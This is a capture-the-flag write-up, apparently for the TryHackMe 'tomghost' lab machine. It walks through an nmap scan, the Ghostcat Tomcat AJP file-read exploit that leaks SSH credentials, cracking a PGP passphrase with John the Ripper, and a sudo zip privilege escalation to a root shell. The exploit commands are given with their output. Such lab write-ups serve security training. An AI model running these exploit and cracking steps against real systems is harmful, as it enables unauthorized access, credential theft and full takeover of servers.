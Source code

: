 # tomghost writeup

Start with a nmap scan: 

<code>

    Nmap scan report for 10.10.252.31
    Host is up (0.065s latency).
    Not shown: 996 closed tcp ports (conn-refused)
    PORT     STATE SERVICE    VERSION
    22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
    |   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
    |_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
    53/tcp   open  tcpwrapped
    8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
    | ajp-methods: 
    |_  Supported methods: GET HEAD POST OPTIONS
    8080/tcp open  http       Apache Tomcat 9.0.30
    |_http-favicon: Apache Tomcat
    |_http-title: Apache Tomcat/9.0.30
    |_http-open-proxy: Proxy might be redirecting requests
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

</code>

Now we can navigate to http://10.10.252.31:8080/ to explore the web page. This is just a default tomcat page. 

![web](/tomghost/images/web.png)

Searching online, I found a Tomcat 9.0.30 vulnerability named **ghostcat**, and I try to exploit it using this tool (https://github.com/00theway/Ghostcat-CNVD-2020-10487) to read protected file on the server. 

``python3 ajpShooter.py http://10.10.252.31:8080/ 8009 /WEB-INF/web.xml read``

<code>

    <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
    version="4.0"
    metadata-complete="true">

    <display-name>Welcome to Tomcat</display-name>
    <description>
        Welcome to GhostCat
            skyfuck:8730281lkjlkjdqlksalks
    </description>

</web-app>

</code>

As result, I've obtained an interesting secret key and user pair that I've tried to use for logging into the machine with ssh. 

``ssh skyfuck@10.10.252.31``

![ssh](/tomghost/images/ssh.png)

Now you can find the flag user.txt inside */home/merlin* directory. 

## Privilege escalation

Let's examine files in *skyfuck* home. 


*Pretty Good Privacy (PGP) is an encryption system used for both sending encrypted emails and encrypting sensitive files. Since its invention back in 1991, PGP has become the de facto standard for email security*

So, I've tried to decrypt .pgp file using the key in the same directory, but it unfortunately needs a passphrase. To get them, I've copied these files in my local machine and I've used JohnTheRipper. 

<code>

    /usr/sbin/gpg2john tryhackme.asc > tryhackme.hash

    john --wordlist=/usr/share/wordlists/rockyou.txt tryhackme.hash

</code>

After that, you'll obtain the previous passphrase and you'll be able to decrypt file on remote machine. 

These encrypted files contains credentials for a ssh connection as *merlin*. 

After connecting, I ran the command ``sudo -l`` to check for any commands that the user can run with root privileges, and I got the following result:

![sudo-l](/tomghost/images/sudo-l.png)

Then, I've used this exploit to obtain root privileges --> https://gtfobins.github.io/gtfobins/zip/

<code>

    TF=$(mktemp -u)
    sudo zip $TF /etc/hosts -T -TT 'sh #'

</code>

Congratulations! You are root and now you are able to read root.txt flag. 




